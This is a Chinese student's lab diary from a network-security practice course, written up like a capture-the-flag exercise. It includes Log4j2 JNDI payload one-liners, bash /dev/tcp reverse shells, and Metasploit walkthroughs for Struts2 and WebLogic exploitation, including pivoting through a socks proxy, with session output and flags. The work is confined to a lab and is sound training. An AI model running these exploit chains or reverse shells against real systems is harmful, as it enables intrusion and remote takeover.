



# 个人开发日志 -- Dalechu

实验环境 :
- 主机 : Windows11 23H2
- 虚拟机平台 : VMware Workstation Pro 16.2.4 
- kali@attacker :  2023.4
- kali@victim : 2024.1

---

## 2024-07-08 : 确定 git 作业流程, 开始搭建环境

### 内容

#### Git 作业流程

上午听了老师的作业要求, 我和 lihan3238 讨论了一下交作业的流程, 规范如下 :
- 小组成员基于 main 分支建立自己的工作分支
- 修改内容后, 组员先提交到自己的分支中, 再 pull request, 审核后合并到 main 分支中 ( 并处理可能存在的冲突 )
- 组员使用 git rebase 命令同步自己的分支, 维持 commit 记录的简洁和连贯性

具体流程如下 :

```
git checkout your_workspace   # 切换到你的工作分支 your_workspace

# 干完活了, 准备提交到远程仓库

git add.  # 所有修改放到暂存区

git commit -m "描述你的更改"   # 提交

git push   # 推送到远程仓库的 your_workspace 分支

#去 GitHub 上 pull request, 等组长审核, 通过之后, 你的工作就推送到 main 分支中了 : 

git checkout main   # 切换到 main 分支

git pull   # 拉取 main 最新内容到本地

git checkout your_workspace   # 切换到 your_workspace 分支

git rebase main   # 相当于将 main 内容与本地 your_workspace 结合, 并将 your_workspace 的 commit 记录跳跃到当前 main 中来, 更加简洁

git push    # 将本地的 rebase 操作同步到远程仓库
```

#### 搭建基本环境

我习惯使用 VMware 平台, kali 版本为 2024.1, 参考老师 [视频](https://www.bilibili.com/video/BV1p3411x7da?p=7&vd_source=5805c1231cd951b8c81ad0a508b22601) 中的演示.

使用命令 `apt install -y docker.io docker-compose jq` 安装 docker : 


查看 git 和 docker 版本 :


使用命令 `git clone https://github.com/c4pr1c3/ctf-games.git` 克隆 ctf-games 仓库 :


参考 [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA)  配置 docker 镜像源 :


拉取 docker 镜像 vulfocus :


切换到 ctf-games/fofapro/vulfocus 目录下, 执行 `bash start.sh`, 选择 host-only 网卡对应的 IP 地址 :


在宿主机浏览器上访问此 IP 地址, 默认用户名和口令均为 admin : 


### 问题

docker 镜像源, 感谢之前程老师推荐的 [小陈的容器镜像站](https://mp.weixin.qq.com/s/jaUb7sSLDBXrU3F7crtWPA). 目前仍可用.

### 参考

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)
- [详述 Git 的 rebase 命令使用方法](https://blog.csdn.net/qq_35246620/article/details/124718643)
- [git rebase 用法详解与工作原理](https://waynerv.com/posts/git-rebase-intro/)


---


## 2024-07-09 : Log4j2 漏洞的存在性检测和

### 内容

#### Log4j2 漏洞检测

下载 Log4j2 镜像并启动漏洞靶标 :


尝试在 URL 后补充 '/hell' 和 '/hello' :


在 kali 中执行 `docker ps` 查看正在运行的容器 :


Log4j2 对应的容器名称为 eloquent_boyd

进入容器 :

```shell
docker exec -it eloquent_boyd bash
```


发现 demo.jar 文件, 将其拷贝出来 :

```shell
docker cp eloquent_boyd:/demo/demo.jar ./
```


使用 `jd-gui` 工具反编译, 查看代码 :


确实发现漏洞


#### 漏洞可利用性检测

打开网站 http://www.dnslog.cn/ , 获取随机子域名 `95p55c.dnslog.cn` :


根据靶场容器 URL 和获取的子域名，对 payload 字段进行编码, 编码平台可使用 https://www.urlencoder.org/ .

```shell
# 编码内容 : ${jndi:ldap://ottlt5.dnslog.cn/dalechu}

# 编码结果 : %24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D

# curl 命令 :
curl "http://192.168.5.132:50721/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F95p55c.dnslog.cn%2Fdalechu%7D"

```

发现四条解析记录，说明漏洞可利用 : 


### 参考

- [Kali 关闭自动锁屏功能](https://www.cnblogs.com/test-gang/p/18275596)

- [Xuyan-cmd 的实验报告 ](https://github.com/Xuyan-cmd/Network-security-attack-and-defense-practice)

- [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md)


### 备注
提交到远程仓库时不小心将 `dalechu` 打成了 `Dalechu`, 相当于新建了一个分支, 并且合并到了 `main` 分支上. 现处理如下 : 对 `Dalechu` 分支进行 git rebase, 同步其内容, 删除 `dalechu` 分支. 经过认真检查, 主分支没有被破坏, 特此记录, 下次引以为戒 ! 

---


## 2024-07-10 : Log4j2 漏洞利用

### 内容

#### 下载工具 log4j-scan 并扫描漏洞 :

```shell
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 在 log4j-scan.py 的 post_data_parameters 中手动添加 payload 参数或无脑替换 :  
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 将 log4j-scan.py 文件 349 行处的 GET 请求参数中的 `v` 改为 `payload` 

# 扫描靶场容器, 注意这里使用 get 而不是 post !!!
python log4j-scan.py --request-type get -u http://192.168.5.132:49576/hello --dns-callback-provider dnslog.cn
```


成功扫描到漏洞


### 问题

这里我参考了组员 lihan3238 的探索过程和痛苦经历, 我就没有遇到什么坑了 >_< . 另外, 我是在 Windows 主机中克隆 log4j2-scan 并执行 python 程序的, 并没有什么大问题, 只是如果用 `python3` 来执行 log4j-scan.py , 终端不会有任何响应信息, 发现改为 `python` 即可正确执行.  

### 参考

- [lihan3238 的实验记录](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/lihan3238/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md#%E6%BC%8F%E6%B4%9E%E5%8F%AF%E5%88%A9%E7%94%A8%E6%80%A7%E6%A3%80%E6%B5%8B)


---


## 2024-07-11 : 漏洞靶标攻防

### 内容

新建一台 kali 虚拟机, 为其配置一块 host-only 网卡, 主机名改为 `attacker` :

```shell
hostnamectl set-hostname attacker

# 在 /etc/hosts 文件中添加 127.0.0.1 和 attacker 的记录

# 重启系统

# 同样, 另一台虚拟机的主机名改为 victim
```


在虚拟机 attacker 上安装 tmux 和 asciinema :

```shell
sudo apt install tmux asciinema
```

tmux 的简单使用 :

```shell
# 建立名为 session_name 的会话
tmux new -s session_name 

# 先 Ctrl + B, 再 % : 左右分屏
# 先 Ctrl + B, 再 " : 上下分屏

# 先 Ctrl + B, 再 D : 切换回原先终端环境

# 切换回 session_name 会话中
tmux a -t session_name 

```

在 attacker 虚拟机中先简单布置两个终端窗口, 一个为 attacker 本身, 另一个通过 ssh 连接到 victim 虚拟机.

在 attacker 终端窗口上 :

```shell
ip a 
# 查看 host-only 网卡 IP 地址

nc -l -p 7777

# 当可以进入 victim 虚拟机的容器后 :

ls
ls /tmp
ps aux

```

在 victim 终端窗口上 :

```shell
# 查看当前运行中的容器
sudo docker ps

# 复制目标容器名

# 进入容器 agitated_curie 内
sudo docker exec -it agitated_curie /bin/bash     

# 进入容器后, 执行 :
bash -i >& /dev/tcp/192.168.5.134/7777 0>&1 
# 这里的 192.168.5.134 为 attacker 虚拟机 host-only 网卡对应 IP 地址
```

录制的 asciinema 视频 :

[](https://asciinema.org/a/yruCeOBQtHKoa4kS0LB2r3Bsj)


### 问题

我本来配置了 host-only 网卡 eth0 和 NAT 模式网卡 eth1, 但 kali 开机后, 使用 `ip a` 命令查看 IP 地址, 发现这两块网卡的 state 都是 DOWN, 正常网卡应该是 UP 的. 尝试解决这个问题 :

以 eth0 为例, 临时方案 : 

```shell
sudo ip link set eth0 up  # 将网卡 eth0 设置为 UP
sudo dhclient eth0 # 获取 IP 地址
```

完全解决方案 ( Kali Linux 2023.4 版本可行 ) :
```shell
# 编辑 /etc/network/interfaces 文件, 添加 :
auto eth0
iface eth0 inet dhcp

# 如此, 系统启动时会自动启用网络接口 eth0, 并使用 DHCP 分配 IP 地址
```

### 参考

- [网络安全综合实验视频教程](https://www.bilibili.com/video/BV1p3411x7da?p=19&vd_source=5805c1231cd951b8c81ad0a508b22601)

- [lihan3238 的实验记录](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%95%88%E6%9E%9C%E8%AF%84%E4%BC%B0-%E5%8F%8D%E5%BC%B9-shelllog4j2-cve-2021-44228)

---


## 2024-07-12 : 漏洞利用流量检测实战和场景化漏洞攻击

### 内容

#### 漏洞利用流量检测实战

在 attacker 虚拟机中下载 [JNDIExploit.v1.2.zip](https://github.com/Mr-xn/JNDIExploit-1/releases/tag/v1.2), 解压缩, 计算校验和 :



尝试反弹 Shell : 

这里使用 tmux 分割三个终端, 分别执行以下命令 :

```shell
# 开启 JNDI 服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.5.134

# 监听端口，等待靶标容器连接
nc -l -p 7777

# 发送包含访问恶意命令（ Base64 编码的反弹 Shell 命令）地址的 HTTP 请求
sudo apt install xxd

SHELL_COMMAND="bash -i >& /dev/tcp/192.168.5.134/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.5.132:53860/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.5.134:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

```

flag 即为 : **flag-{bmh95894fd4-c71c-4ad5-b1eb-83b886126dcf}**


asciinema 录屏 :

[](https://asciinema.org/a/pNz6cot6L8jaaLtpIdzdMwkMW)


```shell
# 启动 suricata 检测容器, 此处 eth1 为 victim 虚拟机的 host-only 网卡
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:latest

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
docker restart suricata

# 在重复上次 jndi 渗透过程同时, 开辟新的 victim 终端窗口来监视 suricata 日志 :
docker exec -it suricata tail -f /var/log/suricata/fast.log

```


asciinema 录屏 :

[](https://asciinema.org/a/GogoxgBeXh75I9v83XvQX1eaV)


#### 场景化漏洞攻击


- 在 vulfocus 的本地管理页面的左侧导航菜单里依次找到并点击：场景管理、环境编排管理。
- 在主窗口中点击 添加场景 ，选择 创建编排模式 。
- 在打开的拓扑编辑页面，点击 上传 按钮，选择当前目录下的 DMZ.zip 上传。
- 返回 环境编排管理 页面，点击刚才创建成功的场景缩略图上的 发布 按钮。
- 发布成功后，通过左侧导航菜单里的 场景 找到刚才发布成功的场景缩略图，点击后进入场景详情页面，点击 启动场景 。
- 注意访问地址不是场景详情页面上显示的，请自行替换为 vulfocus管理页面的访问IP:场景详情页面上显示的端口号 。


这里发现镜像 `vulfocus/struts2-cve_2020_17530` 对应容器的 CONTAINER ID 为 `12499e844404`, 下面尝试捕获指定容器的上下行流量 :

```shell
# 建议放到 tmux 会话
container_name="12499e844404"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump

# 置于后台, 快捷键 Ctrl + B, D
```


### 问题

部署 DMZ 场景, 一直失败. 请教老师后, 发现我的两位室友也都遇到了同样的问题哈哈, 需要自己写一个 dockerfile, 将 vulshare/nginx-php-flag 容器中的 /2.sh 的  `ping aa.25qcpp.dnslog.cn` 命令删去即可 ( 因为无法 ping 通 ). 但是当我回到宿舍中, 还没动手修改, 却发现此能跑通了 ! 即宿舍网环境中能正常 ping 此域名 : 




### 参考

- [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md#%E7%BA%A2%E9%98%9F-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%AE%9E%E6%88%98)

- [网络安全综合实验视频教程](https://www.bilibili.com/video/BV1p3411x7da?p=19&vd_source=5805c1231cd951b8c81ad0a508b22601)

- [zzz group 成员的实验日志](https://git.cuc.edu.cn/ccs/2024-summer-cp/zzz-group/-/blob/0_%E5%BC%A0%E6%A1%93%E5%98%89/%E9%9A%8F%E6%89%8B%E5%AE%9E%E9%AA%8C%E8%AE%B0%E5%BD%95.md?ref_type=heads)


---


## 2024-07-13_and_14 : 场景化漏洞攻防初

### 内容

#### 攻克第一个标靶

```shell
# 切换到攻击者主机 attacker 进行 metasploit 基础配置
# sudo apt install -y metasploit-framework
# 在 2024 版本 kali 中, metasploit-framework 是自带的, 无需再手动安装.

# 初始化 metasploit 本地工作数据库及启动 :
sudo msfdb init && msfconsole

# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a demo

# 查看工作区
workspace -l
```


原先的 attacker 虚拟机运行 msfconsole 命令报错了, 查阅诸多方法无法解决, 遂使用新虚拟机作为 attacker 了 : 


收集信息, 寻找合适的 exp  :

```shell
# search exp in metasploit
search struts2 type:exploit

# 查看模块信息, 参数选择 exploit/multi/http/struts2_multi_eval_ognl 对应的序号
info <编号>

# 根据输出内容, 继续完善搜索关键词 :
search S2-059 type:exploit

# 使用此 exp
use <编号>
```


```shell
# 查看 payloads 列表
show payloads

# 使用合适的 payload
set payload payload/cmd/unix/reverse_bash
```


设置好靶机 ip, 端口等信息 :

```shell
# 靶机 IP
set RHOSTS 192.168.5.132

# 靶机目标端口
set rport 25679

# 攻击者主机 IP
set LHOST  192.168.5.135

# 查看参数列表, 确认一遍
show options
```


```shell
# getshell
exploit -j

# 如果攻击成功，查看打开的 reverse shell
sessions -l

# 进入会话 1
sessions -i 1
# 无命令行交互提示信息，试一试 Bash 指令

# 寻找 flag
ls /tmp

#挂后台
# 快捷键 Ctrl-Z, Y
```

发现 **flag-{bmh5385b98e-4e60-4423-8c7f-6d01adb1b517}** !


#### 攻克第二个标靶

- 这里需要将已获得的 1 号会话即外层主机 shell 升级为 meterpreter

- meterpreter 是 Metasploit 框架中的一个高级 payload，提供了一个强大的内存驻留 shell，允许攻击者在目标系统上执行各种命令和脚本，而不会在目标系统的硬盘上留下痕迹. 它具备强大的后渗透功能，可以帮助攻击者在目标系统上进行广泛的操作. 与控制台之间的通信经过加密，防止流量被拦截和分析.


```shell
# upgrade cmdshell to meterpreter shell
sessions -u 1

sessions l

sessons -i <ID>
```


进入 meterpreter 会话后 :

```shell
# 查看网卡信息
ipconfig

# 查看路由表 
route

# 查看 ARP 缓存
arp
```




```shell
# 根据上面的内容, 创建路由 :
run autoroute -s 192.175.84.1/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p

# 挂后台, 快捷键 Ctrl-Z, Y

```


```shell
search portscan
use auxiliary/scanner/portscan/tcp
show options

# 根据子网掩码推导
set RHOSTS 192.175.84.2-254

# 根据「经验」
set ports 7001

# 根据「经验」
set threads 10

run -j

hosts
```


```shell
# 查看发现的服务列表
services

# 建立 socks5 代理

search socks_proxy
use auxiliary/server/socks_proxy
run -j

# 查看后台建立 socks5 代理是否成功
jobs -v
```


```shell
# 开启新的终端窗口
# 查看 1080 端口
sudo lsof -i tcp:1080 -l -n -P

# 编辑 /etc/proxychains4.conf
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

# 使用 proxychains 命令扫描内网主机
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.175.84.2-5
```


```shell
# 回到 metasploit 环境
# 进入 sessions 1 会话
sessions l

sessions -i 1

curl http://192.175.84.2:7001 -vv
curl http://192.175.84.3:7001 -vv
curl http://192.175.84.4:7001 -vv
curl http://192.175.84.5:7001 -vv

```


```shell
# search exploit
search cve-2019-2725

# getshell
use 0

set lhost 192.168.5.135

set RHOSTS 192.175.84.2
# set RHOSTS 192.175.84.3
# set RHOSTS 192.175.84.4
# 分别设置不同的靶机 IP 

show options

# 分别 run
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5

```


来看最终输出结果吧 ! 


详细内容如下, 这里我既感到欣喜, 因为一个下午不断重复实验终于有了最正确的输出, 又感到悲凉, 怎么会输出这么多 flag 啊 ! 还要一个一个地试 ( 原因就是我前面有细节没处理好, 重复实验过程太多了, Metasploit 的 workspace 都创建了三个 ... ), 但不管了, 阶段性的胜利就在眼前, 冲 :

```shell
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions l

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:44122 (192.168.5.132)
  2         meterpreter x86/linux  root @ 192.175.84.4  192.168.5.135:4433 -> 192.168.5.132:39960 (192.168.5.132)
  3         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:60884 (192.175.84.2)
  4         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:39274 (192.175.84.3)
  5         shell cmd/unix                              192.168.5.135:4444 -> 192.168.5.132:54988 (192.175.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -c "ls /tmp" -i 3,4,5
[*] Running 'ls /tmp' on shell session 3 (192.175.84.2)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh0ca4b9ab-1118-4e1f-a869-47d47e1b9d16}
flag-{bmh3267040b-cd84-4d6e-b9d9-1cd1765f3f4b}
flag-{bmh4b8fb732-c18a-4966-ab90-221754a268f4}
flag-{bmh6abbfaaf-608b-4bf2-885f-e701b18845a8}
flag-{bmh9bfc0cdf-07d9-42d5-85f2-9ff63acac3fa}
flag-{bmha6b94bb2-883b-4793-a748-ec62e7291c3c}
flag-{bmhbf1384fc-0cb8-4b3d-9016-2da6fda8fb18}
flag-{bmhc8910e6c-e2a4-47b2-a362-491dcc6de8a6}
flag-{bmhdc78a69c-0ed6-4940-a836-181167bda07c}
hsperfdata_root
packages
wlstTemproot

[*] Running 'ls /tmp' on shell session 4 (192.175.84.3)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh0d5d1376-045a-464c-9177-cf73f8ff5970}
flag-{bmh1433f21c-0208-4262-bc95-593762bfcf45}
flag-{bmh222b0814-c02d-4b6a-b40e-427bd7ff256b}
flag-{bmh2285f31b-986d-4931-ab9a-2e21589c0256}
flag-{bmh35aa9186-6ade-46e7-ba61-8060ba39efe9}
flag-{bmh608bca2c-f469-4191-a73a-090ef6743e2b}
flag-{bmha7d2f38a-df5e-44ea-bd05-eda85d183645}
flag-{bmhb7d0ef83-ed19-4fb0-92b9-b7caaae3e543}
flag-{bmhe40f8b12-1dc0-43df-a053-c2706abdcfab}
hsperfdata_root
packages
wlstTemproot

[*] Running 'ls /tmp' on shell session 5 (192.175.84.5)
bea1061393648233859820.tmp
cookie.txt
flag-{bmh3da94f23-4b48-4d3d-a2aa-147094680dd3}
flag-{bmh47cc435c-13fe-4fd2-a7ce-7c8149d769de}
flag-{bmh588f84b3-bfbe-4236-ba7e-8c5b9710244a}
flag-{bmh797860cb-3884-4146-a5e5-99339995d662}
flag-{bmh82c89f3e-2350-4a11-8b7c-6655ea7849c1}
flag-{bmhaf3b231c-ea3c-4493-a378-ac2db96fcca8}
flag-{bmhb3ccafdb-91ae-4b07-961b-3fdf441559e6}
flag-{bmhd468851e-99f9-4406-b9ca-d6d79187b384}
flag-{bmhec137595-259f-45da-b50d-a62c5c657184}
hsperfdata_root
packages
wlstTemproot

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > 
```


经过不断的 Ctrl-CV 和提交, 得到正确 flag 如下 :
- session 3 的 flag-{bmh6abbfaaf-608b-4bf2-885f-e701b18845a8}
- session 4 的 flag-{bmh222b0814-c02d-4b6a-b40e-427bd7ff256b}
- session 5 的 flag-{bmhd468851e-99f9-4406-b9ca-d6d79187b384}


爽 !


### 问题

- 原先的 attacker 虚拟机运行 msfconsole 命令失败, 报错信息如下 :

> Metasploit tip: You can pivot connections over sessions started with the 
ssh_login modules
/usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/pg-1.5.6/lib/pg/connection.rb:695: [BUG] Segmentation fault at 0x0000561200000000
ruby 3.1.2p20 (2022-04-12 revision 4491bb740a) [x86_64-linux-gnu]

-  与此同时, 我的 2024.1 版本 kali@victim 虚拟机却能够正常打开 metasploit-framework ( 不用安装, kali 直接自带了 ) . 而两台虚拟机的 Ruby 版本均为 v3.1.2p20, 终端环境也相同, 在重启虚拟机无效后, 我果断选择跳过此 BUG, 弃用此 attacker 虚拟机, 导入一台新虚拟机作为攻击机, 这样反而更节省时间与精力.

- 细节问题 : 复制粘贴命令的时候一定一定一定要检查 IP 地址, 大家基本都是 192.170 , 而我是 192.175, 虽然已经尽量细心检查了, 但还是有疏忽浪费了时间 ~ 唉. 总之, 一定要细心 !!!

### 参考

- [网络安全综合实验视频教程](https://www.bilibili.com/video/BV1p3411x7da?p=26&vd_source=5805c1231cd951b8c81ad0a508b22601)

- [lihan3238 的实验日志](https://github.com/lihan3238/Network-Security-Comprehensive-Practice/blob/main/0_lihan3238/%E4%B8%AA%E4%BA%BA%E5%BC%80%E5%8F%91%E6%97%A5%E5%BF%97.md#%E7%BA%A2%E9%98%9F-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E5%AE%9E%E6%88%98)

- [longxuan-white-sugar 小组的实验报告](https://git.cuc.edu.cn/ccs/2024-summer-cp/longxuan-white-sugar/-/blob/main/README.md?ref_type=heads)

- [zzz group 小组的实验报告](https://git.cuc.edu.cn/ccs/2024-summer-cp/zzz-group/-/blob/main/README.md?ref_type=heads)

---


## 2024-07-15 : 

### 内容


### 问题


### 参考

- []()

---


## 2024-07-16 : 

### 内容


### 问题


### 参考

- []()

---